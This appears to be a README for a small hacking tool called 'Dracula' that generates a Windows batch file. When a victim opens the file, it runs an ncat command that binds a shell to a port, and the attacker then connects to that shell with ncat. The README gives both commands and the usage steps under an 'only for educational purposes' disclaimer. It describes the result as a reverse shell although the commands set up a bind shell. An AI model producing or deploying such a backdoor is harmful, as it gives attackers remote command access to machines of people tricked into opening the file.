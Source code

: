 **THIS IS ONLY FOR EDUCATIONAL PURPOSES**

```
        _____                       _       
        |  __ \                     | |      
        | |  | |_ __ __ _  ___ _   _| | __ _ 
        | |  | | '__/ _` |/ __| | | | |/ _` |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__,_|\___|\__,_|_|\__,_|

```

This is a project i whipped up in like a single day lol

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Run the dracula.py file and enter the required info
2. A batch file is generated 

### **Attacker's Side**

set up a listener using ncat and wait for the client to open the batch file.

```
ncat IP_ADDR_CLIENT PORT
```
replace the IP_ADDR_CLIENT with ip addr of client and PORT with port used in the attack

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```
